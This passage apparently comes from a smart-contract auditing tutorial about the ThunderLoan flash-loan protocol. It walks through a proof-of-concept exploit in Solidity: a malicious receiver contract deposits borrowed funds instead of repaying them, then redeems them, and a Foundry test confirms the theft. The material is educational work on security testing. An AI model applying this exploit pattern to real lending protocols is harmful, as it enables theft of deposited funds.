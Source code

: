 For this attack to work we need to deposit the funds we've borrowed back into ThunderLoan (as well as the expected fee). This, if we're right, will clear the flash loan and allow us to redeem the amount of the loan, stealing the funds permenantly!

```js
function executeOperation(
    address token,
    uint256 amount,
    uint256 fee,
    address, /*initiator*/
    bytes calldata /*params*/
)
    external
    returns (bool)
{
    s_token = IERC20(token);
    assetToken = thunderLoan.getAssetFromToken(IERC20(token));
    s_token.approve(address(thunderLoan), amount + fee);
    thunderLoan.deposit(IERC20(token), amount + fee);
    return true;
}
```

All our test should need to do, is call flashloan, passing our malicious contract as the flash loan receiver, and then illustrate that the attacker can redeem the funds.

We can begin by creating a function within `DepositOverRepay` for our attacker to call that executes the `redeem` function in `ThunderLoan`.

```js
function redeemMoney() public {
    uint256 amount = assetToken.balanceOf(address(this));
    thunderLoan.redeem(s_token, amount);
}
```

Now we can set up our test.

```js
function testUseDepositInsteadOfRepayToStealFunds() public setAllowedToken hasDeposits {
    uint256 amountToBorrow = 50e18;
    DepositOverRepay dor = new DepositOverRepay(address(thunderLoan));
    uint256 fee = thunderLoan.getCalculatedFee(tokenA, amountToBorrow);
    vm.startPrank(user);
    tokenA.mint(address(dor), fee);
    thunderLoan.flashloan(address(dor), tokenA, amountToBorrow, "");
    dor.redeemMoney();
    vm.stopPrank();

    assert(tokenA.balanceOf(address(dor)) > fee);
}
```

Here we're setting an `amountToBorrow` and deploying our malicious contract. We then calculate the `fee` and mint this to our malicious contract and call `flashloan`.
